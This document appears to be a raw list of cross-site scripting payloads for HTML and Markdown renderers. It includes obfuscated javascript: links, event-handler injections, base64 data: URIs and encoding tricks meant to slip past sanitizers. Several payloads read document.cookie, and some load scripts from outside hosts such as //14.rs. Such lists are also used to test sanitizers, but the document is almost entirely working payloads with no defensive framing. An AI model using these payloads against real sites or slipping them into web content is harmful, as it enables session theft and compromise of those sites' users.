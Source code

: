 <A/hREf="j%0aavas%09cript%0a:%09con%0afirm%0d``">z

<d3"<"/onclick="1>[confirm``]"<">z

<d3/onmouseenter=[2].find(confirm)>z

<details open ontoggle=confirm()>

<script y="><">/*<script* */prompt()</script

<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z

<a href="javascript%26colon;alert(1)">click

<a href=javas&#99;ript:alert(1)>click

<script/"<a"/src=data:=".<a,[8].some(confirm)>

<svg/x=">"/onload=confirm()//

<--`<img/src=` onerror=confirm``> --!>

<svg%0Aonload=%09((pro\u006dpt))()//

<sCript x>(((confirm)))``</scRipt x>

<svg </onload ="1> (_=prompt,_(1)) "">

<!--><script src=//14.rs>

<embed src=//14.rs>

<script x=">" src=//15.rs></script>

<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>

<iframe/src \/\/onload = prompt(1)

<x oncut=alert()>x

<svg onload=write()>


[totallyharmlesslink](javascript:window.onerror=alert;throw%201)

[clickme](data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pgo=)



[a](javascript:prompt(document.cookie))

[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))

![a](javascript:prompt(document.cookie))\


![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)

![a'"`onerror=prompt(document.cookie)](x)\

[citelol]: (javascript:prompt(document.cookie))

[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)

[test](javascript://%0d%0aprompt(1))

[test](javascript://%0d%0aprompt(1);com)

[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)

[notmalicious](javascript://%0d%0awindow.onerror=alert;throw%20document.cookie)

[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[clickme](vbscript:alert(document.domain))

[text](http://danlec.com " [@danlec](/danlec) ")

[a](javascript:this;alert(1))

[a](javascript:this;alert(1&#41;)

[a](javascript&#58this;alert(1&#41;)

[a](Javas&#99;ript:alert(1&#41;)

[a](Javas%26%2399;ript:alert(1&#41;)

[a](javascript:alert&#65534;(1&#41;)

[a](javascript:confirm(1)

[a](javascript://www.google.com%0Aprompt(1))

[a](javascript://%0d%0aconfirm(1);com)

[a](javascript:window.onerror=confirm;throw%201)

[a](javascript:alert(document.domain&#41;)

</http://<?php\><\h1\><script:script>confirm(2)


<a href="javascript:alert(/XSS/)">click</a>

<iframe src="javascript:alert(/XSS/)"></iframe>

<form action="javascript:alert(/XSS/)"></form>